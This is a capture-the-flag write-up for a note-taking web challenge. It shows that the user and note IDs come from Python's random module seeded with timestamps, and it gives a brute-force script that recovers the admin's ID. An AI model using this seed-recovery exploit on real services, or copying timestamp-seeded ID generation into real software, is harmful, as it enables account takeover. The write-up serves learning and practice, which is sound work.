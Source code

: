 # oh-my-note-EN

First of all, get the source code, analysis of the source code that focuses on the following code

```
timestamp = round(time.time(), 4)
post_at = datetime.datetime.fromtimestamp(timestamp, tz=datetime.timezone.utc).strftime('%Y-%m-%d %H:%M UTC')
random.seed(user_id + post_at)
note_id = get_random_id()
```

When a user sends a note for the first time, the random number seed will be set based on the current time stamp, and based on this seed to generate user_id and note_ id. The note sent by the same user generates a note_id will directly use the user_id which stored in the database as part of the seed. So we look at the notes that have been sent out and find the note that admin sent first, search the exact time stamp near the post time, and we can calculate out the admin's user_id on local, take the user_id to `/my_notes` to get flag!

This is my exp, and it maybe work for you.

```
import random
import string
import time


def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)

    return ''.join([random.choice(alphabet) for _ in range(32)])


post_at = "2021-01-15 02:29 UTC"
timeArray = time.strptime(post_at, "%Y-%m-%d %H:%M UTC")
base_timestamp = int(time.mktime(timeArray) - time.mktime(time.gmtime(0)))

y = 'lj40n2p9qj9xkzy3zfzz7pucm6dmjg1u'
flag = False

for i in range(0, 60):
    for j in range(0, 10000):
        timestamp = base_timestamp + i + round(j / 10000, 4)
        random.seed(timestamp)
        user_id = get_random_id()
        random.seed(user_id + post_at)
        note_id = get_random_id()
        if note_id == y:
            print(user_id)
            flag = True
            break
    if flag:
        break
```